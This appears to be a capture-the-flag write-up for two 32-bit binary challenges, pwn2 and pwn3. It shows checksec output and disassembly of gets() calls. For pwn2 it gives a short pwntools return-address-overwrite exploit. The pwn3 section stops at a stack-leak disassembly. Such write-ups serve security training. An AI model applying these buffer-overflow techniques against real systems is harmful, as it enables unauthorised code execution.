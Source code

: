 <hr>
## pwn2

`32-bit executable, dynamically linked, not stripped`

This challenge is similar to last one expect that there is a function 'print flag' that prints the flag.

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
The program simply reads the input and prints it.

```nasm
0x080485d2 <+32>:	lea    eax,[ebp-0xef]
0x080485d8 <+38>:	push   eax
0x080485d9 <+39>:	call   0x80483d0 <gets@plt>
```
### EXPLOIT 
Again, a vulnerable gets() function is used to read the input. We can simply overwrite the return address of the function and get the flag as 'print flag' function is called.

```python
from pwn import *
 
junk="a"*243
flag=p32(0x0804854b)
 
print junk + flag
```


<hr>
## pwn3

`32-bit executable, dynamically linked, not stripped`

pwn3 is similar to pwn2 in the way it reads the input, via a gets() function.

debugging in GDB...
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
The program when run gives us a leak of a stack address. This address is the same as the address that gets() reads into.
```python
0x080484d7 <+12>:	lea    eax,[ebp-0xee]
0x080484dd <+18>:	push   eax
0x080484de <+19>:	push   0x8048600
0x080484e3 <+24>:	call   0x8048370 <printf@plt>
0x080484e8 <+29>:	add    esp,0x10
0x080484eb <+32>:	sub    esp,0xc
0x080484ee <+35>:	push   0x8048618
0x080484f3 <+40>:	call   0x8048370 <printf@plt>
0x080484f8 <+45>:	add    esp,0x10
0x080484fb <+48>:	sub    esp,0xc
```